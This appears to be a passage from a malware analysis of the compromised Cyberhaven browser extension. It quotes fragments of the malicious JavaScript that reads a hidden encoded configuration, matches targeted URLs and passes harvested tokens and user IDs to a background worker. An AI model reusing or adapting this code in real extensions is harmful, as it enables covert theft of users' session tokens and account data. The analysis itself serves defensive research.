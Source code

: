 ```javascript
async function () {
	let e, t = document.location.href;
	try {
		const {cyberhavenext_ext_manage: t} = await chrome.storage.local.get(['cyberhavenext_ext_manage']);
		e = t ? JSON.parse(t) : null;
	} catch (e) {
		console.error('Error retrieving data from storage:', e);
	}
	e && 2000 !== e.code ? setTimeout(async function () {
		if (t.includes(atob(e.cyberhavenextc)))
```

The retrieved encoded configuration is no longer available, but it was shared by CyberHaven:

![sshot](/assets/images/badext/decoded_config_cyberh.png)

The script subsequently performs parsing actions in `cyberhavenext-text` and `cyberhavenext-rjson` and sends a message to `worker.js` with action `cyberhavenext-text`, including payload `pl` to `worker.js`, which contains sensitive data such as tokens and userids from the targeted URLs.
```javascript
chrome.runtime.sendMessage({
	action: 'cyberhavenext-rtext',
	url: t
}, t => {
	const i = /6kU.*?"/gm;
	let w, k = '';
	for (; null !== (w = i.exec(t));)
		k = w[0].replace('"', '');
	if (k) {
		let t = s + k;
		chrome.runtime.sendMessage({
			action: 'cyberhavenext-rjson',
			url: r + t
		}, async r => {
			const s = r.id, i = r;
```